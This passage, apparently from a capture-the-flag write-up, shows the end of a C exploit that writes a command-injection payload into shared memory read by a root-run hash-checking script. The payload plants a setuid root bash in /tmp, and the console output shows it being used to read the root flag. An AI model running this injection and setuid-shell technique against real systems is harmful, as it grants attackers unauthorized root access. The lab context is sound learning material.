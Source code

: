 ```c

            // Step 4: Write the payload to the shared memory segment.
            const char *payload = "Leaked hash detected at Sun Feb 23 xx:xx:xx 2025 > ';cp /bin/bash /tmp/bash; chmod u+s /tmp/bash ;#";
            snprintf(shm_addr, SHM_SIZE, "%s", payload);

            printf("[+] Payload injected into shared memory! Detaching memory...\n");

            // Step 5: Detach the shared memory segment when done
            if (shmdt(shm_addr) == -1) {
                perror("shmdt failed");
                return 1;
            }
            break;
        }
    }
    return 0;
}
```

Lets compile and run it again.

```console
reader@checker:~$ gcc -o leak leak.c
reader@checker:~$ ./leak
Brute forcing shared memory addresses...

reader@checker:~$ sudo /opt/hash-checker/check-leak.sh bob
Password is leaked!
Using the shared memory 0x33C30 as temp location
ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db

reader@checker:/tmp$ ls -la | grep bash
-rwsr-xr-x  1 root root 1396520 Feb 23 15:53 bash
```

The exploit worked and now we can get the root flag.

```console
reader@checker:/tmp$ /tmp/bash -p
bash-5.1# cat /root/root.txt
```
